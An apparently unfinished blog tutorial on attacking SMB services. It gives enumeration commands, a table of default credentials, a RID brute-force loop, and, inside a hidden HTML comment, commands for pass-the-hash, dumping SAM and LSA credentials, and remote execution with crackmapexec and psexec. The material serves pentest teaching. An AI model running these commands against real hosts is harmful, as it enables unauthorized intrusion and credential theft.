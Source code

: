 ```yaml
---
title: SMB Protocol
layout: post
---
```


Have you found that the SMB service is running and you don't know what to do with it?

I am going to show you what this service is and how you can exploit it

![Alt text](/images/smbprotocol.png?raw=true "SMB-Protocol")

<!-- more -->

# Introduction

First of all, the **Server Message Block** (SMB) is a client-server protocol that regulates access to entire files and directories and other network resources such as:
- Printers
- Routers
- Interfaces released to the network

The application area is mainly active on *Windows* operating systems, these network services support SMB with older versions, this means that older windows operating systems are perfectly compatible with newer ones.
However, there is a solution that allows the use of SMB on ***Linux and Unix*** distributions via Samba.

The SMB server can provide some parts (if it allows it) of your local files, such as shares.
Therefore the part visible to a client is on the one hand independent of the server structure.
Access rights are defined by access control lists ***(ACL)***. They can be controlled by attributes such as: 
- Execute
- Read
- Full access for individual users or groups of users

***ACLs*** are defined on the basis of shared resources and therefore do not correspond to the rights assigned locally on the server.

# First steps: Enumeration

Scan a network searching for hosts:

``` console
$ nbtscan -r 192.168.0.1/24
```

# View the SMB server version
First, to look for possible exploits in SMB it is important to know which version is being used. To do this you can use the MSF auxiliary module: 

``` console
$ msfconsole

$ msf6> use auxiliary/scanner/smb/smb_version
```

Or u can use **this script**:

``` bash
 #!/bin/sh
 #Author: rewardone
 #Description:
 #Requires root or sufficient permissions to use tcpdump.
 # It will listen for the first 7 packets of a null login
 # and will take the SMB version
 #Notes:
 # Sometimes it will not capture or print multiple # lines.
 # lines. It may be necessary to run a second time to succeed.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '{\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1
```


# SearchSploit

To search for possible exploits that are related to SMB protocol you can use this command in msfconsole:

``` console
$ msfconsole

    Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


$ msf6> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

Or you can use this command, note that you must have installed searchsploit

``` console
$ searchsploit smb
```
More info: [searchsploit](https://www.exploit-db.com/searchsploit)

# Possible Credentials

Sometimes companies leave the smb protocol misconfigured, or don't even configure it at all, and sometimes if they do, they leave very basic credentials, which you can try to use, such as: 

| Usernames            | Passwords                               |
|----------------------|-----------------------------------------|
| (blank)              | (blank)                                 |
| guest                | (blank)                                 |
| Administrator, admin | (blank), password, administrator, admin |
| arcserve             | arcserve, backup                        |
| tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
| backupexec, backup   | backupexec, backup, arcada              |
| test, lab, demo      | password, test, lab, demo               |


# Some Commands to get more information

``` console
 #Dump interesting information
$ enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
$ enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>
$ nmap --script "safe or smb-enum-*" -p 445 <IP>

 #Connect to the rpc
$ rpcclient -U "" -N <IP> #No creds
$ rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
$ #You can use querydispinfo and enumdomusers to query user information

 #Dump user information
$ /usr/share/doc/python3-impacket/examples/samrdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
$ /usr/share/doc/python3-impacket/examples/samrdump.py -port 445 [[domain/]username[:password]@]<targetName or address>

 #Map possible RPC endpoints
$ /usr/share/doc/python3-impacket/examples/rpcdump.py -port 135 [[domain/]username[:password]@]<targetName or address>
$ /usr/share/doc/python3-impacket/examples/rpcdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
$ /usr/share/doc/python3-impacket/examples/rpcdump.py -port 445 [[domain/]username[:password]@]<targetName or address>
```

# Enumerating LSARPC and SAMR rpcclient

Pat of this section was extracted from book "Network Security Assesment 3rd Edition"
You can use the Samba rpcclient utility to interact with RPC endpoints via named pipes. The following lists commands that you can issue to SAMR, LSARPC, and LSARPC-DS interfaces upon establishing a SMB session (often requiring credentials).
### Server Info
- Server Info: **srvinfo**
### Users enumeration
- List users: **querydispinfo** and **enumdomusers**
- Get user details: **queryuser <0xrid>**
- Get user groups: **queryusergroups <0xrid>**
- GET SID of a user: **lookupnames <username>**
- Get users aliases: **queryuseraliases [builtin|domain] <sid>**

``` python
 #Brute-Force users RIDs
for i in $(seq 500 1100); do
    rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";
done
```
















<!---
# You can also use samrdump.py for this purpose
Groups enumeration
List groups: enumdomgroups
Get group details: querygroup <0xrid>
Get group members: querygroupmem <0xrid>
Aliasgroups enumeration
List alias: enumalsgroups <builtin|domain>
Get members: queryaliasmem builtin|domain <0xrid>
Domains enumeration
List domains: enumdomains
Get SID: lsaquery
Domain info: querydominfo
Shares enumeration
Enumerate all available shares: netshareenumall
Info about a share: netsharegetinfo <share>
More SIDs
Find SIDs by name: lookupnames <username>
Find more SIDs: lsaenumsid
RID cycling (check more SIDs): lookupsids <sid>
Extra commands

To understand better how the tools samrdump and rpcdump works you should read Pentesting MSRPC.
GUI connection from linux
In the terminal:
xdg-open smb://cascade.htb/
In file browser window (nautilus, thunar, etc)
smb://friendzone.htb/general/
List shared folders
It is always recommended to look if you can access to anything, if you don't have credentials try using null credentials/guest user.
smbclient --no-pass -L //<IP> # Null user
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
smbmap -H <IP> [-P <PORT>] #Null user
smbmap -u "username" -p "password" -H <IP> [-P <PORT>] #Creds
smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] #Pass-the-Hash
crackmapexec smb <IP> -u '' -p '' --shares #Null user
crackmapexec smb <IP> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares #Guest user
Connect/List a shared folder
#Connect using smbclient
smbclient --no-pass //<IP>/<Folder>
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
#Use --no-pass -c 'recurse;ls'  to list recursively with smbclient

#List with smbmap, without folder it list everything
smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] #Pass-the-Hash
Manually enumerate windows shares and connect to them
It may be possible that you are restricted to display any shares of the host machine and when you try to list them it appears as if there aren't any shares to connect to. Thus it might be worth a short to try to manually connect to a share. To enumerate the shares manually you might want to look for responses like NT_STATUS_ACCESS_DENIED and NT_STATUS_BAD_NETWORK_NAME, when using a valid session (e.g. null session or valid credentials). These may indicate whether the share exists and you do not have access to it or the share does not exist at all.
Common share names for windows targets are
C$
D$
ADMIN$
IPC$
PRINT$
FAX$
SYSVOL
NETLOGON
(Common share names from Network Security Assessment 3rd edition)
You can try to connect to them by using the following command
smbclient -U '%' -N \\\\<IP>\\<SHARE> # null session to connect to a windows share
smbclient -U '<USER>' \\\\<IP>\\<SHARE> # authenticated session to connect to a windows share (you will be prompted for a password)
or this script (using a null session)
#/bin/bash

ip='<TARGET-IP-HERE>'
shares=('C$' 'D$' 'ADMIN$' 'IPC$' 'PRINT$' 'FAX$' 'SYSVOL' 'NETLOGON')

for share in ${shares[*]}; do
    output=$(smbclient -U '%' -N \\\\$ip\\$share -c '') 

    if [[ -z $output ]]; then 
        echo "[+] creating a null session is possible for $share" # no output if command goes through, thus assuming that a session was created
    else
        echo $output # echo error message (e.g. NT_STATUS_ACCESS_DENIED or NT_STATUS_BAD_NETWORK_NAME)
    fi
done
examples
smbclient -U '%' -N \\\\192.168.0.24\\im_clearly_not_here # returns NT_STATUS_BAD_NETWORK_NAME
smbclient -U '%' -N \\\\192.168.0.24\\ADMIN$ # returns NT_STATUS_ACCESS_DENIED or even gives you a session
Mount a shared folder
mount -t cifs //x.x.x.x/share /mnt/share
mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share
Download files
Read previous sections to learn how to connect with credentials/Pass-the-Hash.
#Search a file and download
sudo smbmap -R Folder -H <IP> -A <FileName> -q # Search the file in recursive mode and download it inside /usr/share/smbmap
#Download all
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
#Download everything to current directory
Commands:
mask: specifies the mask which is used to filter the files within the directory (e.g. "" for all files)
recurse: toggles recursion on (default: off)
prompt: toggles prompting for filenames off (default: on)
mget: copies all files matching the mask from host to client machine
(Information from the manpage of smbclient)
Read Registry
You may be able to read the registry using some discovered credentials. Impacket reg.py allows you to try:
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKCU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKLM -s
Local users
Enumerate local users with SID brute-forcing:
With Impacket:
lookupsid.py -no-pass hostname.local
With Metasploit:
use auxiliary/scanner/smb/smb_lookupsid
set rhosts hostname.local
run
Note: rpcclient command lookupsids only translates a SID to a username but doesn't allow enumeration via brute-forcing.
Post Exploitation
The default config of a Samba server is usually located in /etc/samba/smb.conf and might have some dangerous configs:

The command smbstatus gives information about the server and about who is connected.
Authenticate using Kerberos
You can authenticate to kerberos using the tools smbclient and rpcclient:
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
Execute
crackmapexec
crackmapexec can execute commands abusing any of mmcexec, smbexec, atexec, wmiexec being wmiexec the default method. You can indicate which option you prefer to use with the parameter --exec-method:
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute
psexec/smbexec

Both options will create a new service (using \pipe\svcctl via SMB) in the victim machine and use it to execute something (psexec will upload an executable file to ADMIN$ share and smbexec will point to cmd.exe/powershell.exe and put in the arguments the payload --file-less technique--).
More info about psexec and smbexec.
In kali it is located on /usr/share/doc/python3-impacket/examples/
#If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
Using parameter-k you can authenticate against kerberos instead of NTLM
wmiexec/dcomexec
Stealthily execute a command shell without touching the disk or running a new service using DCOM via port 135.
In kali it is located on /usr/share/doc/python3-impacket/examples/
#If no password is provided, it will be prompted
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
Using parameter-k you can authenticate against kerberos instead of NTLM
#If no password is provided, it will be prompted
./dcomexec.py [[domain/]username[:password]@]<targetName or address>
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
AtExec
Execute commands via the Task Scheduler (using \pipe\atsvc via SMB).
In kali it is located on /usr/share/doc/python3-impacket/examples/
./atexec.py [[domain/]username[:password]@]<targetName or address> "command"
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
Impacket reference
https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/
Bruteforce users credentials
This is not recommended, you could block an account if you exceed the maximum allowed tries
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce each user name
SMB relay attack
This attack uses the Responder toolkit to capture SMB authentication sessions on an internal network, and relays them to a target machine. If the authentication session is successful, it will automatically drop you into a system shell.
More information about this attack here.
-->


# Blog incomplete, working on it :)
